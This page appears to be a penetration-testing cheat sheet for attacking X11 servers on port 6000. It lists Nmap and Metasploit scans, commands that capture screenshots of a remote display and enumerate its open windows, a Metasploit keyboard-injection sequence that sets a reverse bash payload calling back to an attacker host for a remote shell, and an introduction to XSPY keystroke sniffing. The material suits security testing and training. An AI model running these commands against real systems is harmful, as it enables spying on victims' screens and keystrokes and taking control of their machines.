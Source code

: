 ```yaml
---
description: >-
  The X Window System (X11, or simply X) is a windowing system for bitmap
  displays, common on Unix-like operating systems. X provides the basic
  framework for a GUI environment.
---
```


# 6000 - X11

## Nmap

Script:

 `x11-access.nse` 

**Host script results**:   
`|_ x11-access: X server access is granted` 

## Metasploit

X11 No-Auth Scanner - Module scans for X11 servers that allow anyone to connect without authentication. 

`auxiliary/scanner/x11/open_x11` 

## Connect to X11 server

**Xorg:**

`sudo Xorg -terminate -query $REMOTE_HOST :1` 

**Using X:** 

`X :1 -query s390vm.example.com`

* To exit press 'ctrl+alt+enter' 

**To enable XDMCP in Remmina run the following:** 

`sudo apt-get install remmina-plugin-xdmcp` 

## **Taking screenshot**

### **xwd**

XWD It is an X Window System utility that helps in taking screenshots. On our Kali System, we will use the xwd to take the screenshot of Xserver. This utility takes the screenshots in xwd format. 

To take a screenshot run: 

`xwd -root -screen -silent -display 192.168.1.109:0 > screenshot.xwd` 

Here we have the screenshot captured by the xwd, but it is in .xwd format, so to view it we will have to convert it to a viewable format like .png 

**Note:** You may need to install `imagemagick` to convert to png, `convert` is not pre installed on kali

`convert screenshot.xwd screenshot.png` 

On opening the png file we can see that the xwd tool has successfully captured the screenshot of the target system. 

### **xrdp** 

```text
iron@kali2:/opt/xrdp$ python xrdp.py 192.168.0.62:0 
              _        
__  ___ __ __| |_ __   
\ \/ / '__/ _` | '_ \  
 >  <| | | (_| | |_) | 
/_/\_\_|  \__,_| .__/  
               |_|     
X11 Remote Desktop 
xrdp.py <host>:<dp> 
------------------------ 
Example: 
xrdp.py 10.0.0.10:0 
xrdp.py 10.0.0.10:0 --no-disp 
```

## **Gaining remote shell**

 we will use the X11 Keyboard Command Injection module of the Metasploit Framework. This module exploits open X11 Server by connecting and registering a virtual keyboard. Then the Virtual Keyboard is used to open an xterm or gnome-terminal and then type and execute the payload. 

NOTE: As X Server is a visual service, while the executing of the module will take place, every task occurring on the Target System will be visible to the Victim. 

Now, after opening the Metasploit Framework, we will use the payload as shown:

```text
use unix/x11/x11_keyboard_exec 
msf exploit(unix/x11x11_keyboard_exec) > set rhost 192.168.1.109 
msf exploit(unix/x11x11_keyboard_exec) > set payload cmd/unix/reverse_bash 
msf exploit(unix/x11x11_keyboard_exec) > set lhost 192.168.1.120 
msf exploit(unix/x11x11_keyboard_exec) > set lport 4444 
msf exploit(unix/x11x11_keyboard_exec) > set time_wait 10 
msf exploit(unix/x11x11_keyboard_exec) >  run 
```

After running the module, it will first connect to the Server and search for xterm and open it. Then after waiting for 10 seconds as its the wait time we gave earlier, it will start typing the script command on the xterm, After executing this command, xterm will get closed, but it will provide a command shell to the Attacker. 

## **Gather information on the windows open** 

XWININFO - This is the built-in utility in Kali, it shows the window’s information for X Service. xwininfo can be used to get information about the windows opened on the target system. 

`xwininfo -root -tree -display 192.168.1.109:0`

* Root = specifies that X’s root window is the target window 
* Tree = displays the names of the windows 
* Display = specify the server to connect to 

We can extract much information from the screenshot like: 

* The victim has Gnome Terminal Opened 
* The victim is a VMware user 
* The victim has Nautilus \(Ubuntu File Browser\) Opened 

## **Capture keystrokes** 

XSPY It is a built-in tool Kali Linux for the X Window Servers. XSPY is a sniffer, it sniffs keystrokes on the remote or local X Server. 

